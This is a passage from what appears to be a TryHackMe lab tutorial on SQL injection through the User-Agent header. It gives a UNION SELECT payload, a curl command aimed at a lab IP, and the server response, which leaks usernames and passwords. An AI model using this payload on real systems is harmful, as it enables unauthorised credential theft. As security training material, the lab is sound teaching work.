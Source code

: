 dashboard for viewing logs

Preparing the Payload

We will prepare and inject an SQL payload into the User-Agent header to demonstrate how SQL injection can be exploited through HTTP headers. Our target payload will be ' UNION SELECT username, password FROM user; #. This payload is designed to:

    Close the Existing String Literal: The initial single quote (') is used to close the existing string literal in the SQL query.
    Inject a UNION SELECT Statement: The UNION SELECT username, password FROM user; part of the payload is used to retrieve the username and password columns from the user table.
    Comment Out the Rest of the Query: The # character is used to comment out the remainder of the SQL query, ensuring that any subsequent SQL code is ignored.

We need to send this payload as part of the User-Agent header in our HTTP request to inject this payload, which could be done using tools like Burp Suite or cURL. We will use the curl command-line tool to send an HTTP request with a custom User-Agent header. Open a Terminal and access your command line interface. Use the following command to send the request with the custom User-Agent header:
Example Terminal

           
user@tryhackme$ curl -H "User-Agent: ' UNION SELECT username, password FROM user; # " http://10.10.140.99/httpagent/
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SQL Injection </title>
 rel="stylesheet">
</head>
<body class="bg-gray-100">
    <div class="container mx-auto p-8">
        <h1 class="text-4xl font-bold mb-8 text-center">HTTP Logs</h1>
        <div class="bg-white p-6 rounded-lg shadow-lg">

<p class='text-gray-600 text-sm mb-4'>Generated SQL Query: <span class='text-red-500'>SELECT * FROM logs WHERE user_Agent = '' UNION SELECT username, password FROM user; #'</span></p><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>bob</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>bob@123</span></p></div><div class='p-4 bg-gray-100 rounded shadow mb-4'><p class='font-bold'>id: <span class='text-gray-700'>attacker</span></p><p class='font-bold'>user_Agent: <span class='text-gray-700'>tesla</span></p></div>
        </div>
    </div>
</body>
</html>

        

The server's response will be displayed in the terminal. If the SQL injection is successful, you will see the extracted data (usernames and passwords) in the response.

Exploiting Stored Procedures

Stored procedures are routines stored in the database that can perform various operations, such as inserting, updating, or querying data. While stored procedures can help improve performance and ensure consistency, they can also be vulnerable to SQL injection if not properly handled.
